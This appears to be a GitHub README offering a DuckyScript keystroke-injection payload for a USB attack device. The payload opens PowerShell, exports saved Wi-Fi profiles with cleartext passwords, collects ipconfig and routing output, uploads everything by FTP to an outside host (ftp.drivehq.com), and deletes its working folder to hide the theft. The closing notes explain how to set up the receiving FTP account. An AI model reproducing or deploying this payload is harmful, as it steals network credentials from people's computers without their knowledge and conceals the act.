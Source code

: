 ### This script get all info about wifi and password of saved networks and remove the directory used

    DELAY 1000
    GUI r
    DELAY 300
    STRING powershell
    ENTER
    DELAY 700
    STRING cd $ENV:UserProfile
    DELAY 100
    ENTER
    STRING mkdir tmp
    ENTER
    DELAY 800
    STRING cd tmp
    ENTER
    DELAY 800
    STRING netsh wlan export profile key=clear
    ENTER
    DELAY 1500
    STRING ipconfig > ipc.txt
    ENTER
    DELAY 600
    STRING netstat -r > nr.txt
    ENTER
    DELAY 600
    STRING ftp ftp.drivehq.com
    ENTER
    DELAY 300
    STRING USERNAME_FTP_DRIVEHQ
    ENTER
    DELAY 300
    STRING PASSWORD_FTP_DRIVEHQ
    ENTER
    DELAY 300
    STRING prompt
    ENTER
    DELAY 400
    STRING mput *.*
    ENTER
    DELAY 300
    STRING quit
    ENTER
    DELAY 300
    STRING cd ..
    ENTER
    STRING Remove-Item -Recurse -Force tmp
    ENTER
    STRING exit
    ENTER

*  This code works well in my PC (if you need adjust delays)
*  Make a free frp account here: [drivehq]https://www.drivehq.com
*  Change (of course) your username & password